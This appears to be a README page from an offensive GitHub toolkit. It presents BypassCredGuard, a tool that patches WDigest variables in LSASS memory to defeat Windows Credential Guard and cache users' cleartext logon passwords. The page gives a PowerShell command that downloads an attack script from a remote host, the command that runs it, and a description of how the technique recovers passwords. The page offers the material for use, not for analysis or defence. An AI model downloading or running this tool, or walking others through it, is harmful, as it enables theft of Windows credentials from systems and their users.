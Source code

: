 ## BypassCredGuard.exe

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|[BypassCredGuard](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/utils/BypassCredGuard.exe)|Credential Guard Bypass Via Patching Wdigest Memory|Administrator|Credits: @wh0nsq|

<br />

**download script:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/DeviceGuard/DeviceGuard.ps1" -OutFile "DeviceGuard.ps1"
```

<br />

**run cmdlet:**
```powershell
.\DeviceGuard.ps1
```

<br />

**Final Notes:**
```powershell
   BypassCredGuard - Credential Guard Bypass Via Patching Wdigest Memory

   ## Background
   Adam Chester wrote an article called "Exploring Mimikatz - Part 1 - WDigest" about memory patching to enable UseLogonCredential
   and make Wdigest cache cleartext credentials intrigued me. The wdigest.dll module loaded by the LSASS process has two interesting
   global variables: `g_fParameter_useLogonCredential` and `g_IsCredGuardEnabled`, their role is self-evident from the name alone,
   the former is used to determine whether the clear text password should be stored in memory , the latter holds the state of the
   Windows Defender Credential Guard within the module, and Wdigest plaintext password caching can be enabled on systems with Credential
   Guard by patching the values of these two global variables in memory.

   ## Let’s see it in action
   Run the POC we wrote on the system with Credential Guard protection enabled.
   When the user enters the username and password to log in again, we get his plaintext password again,
   as shown in the figure below.

![](/DeviceGuard.png)



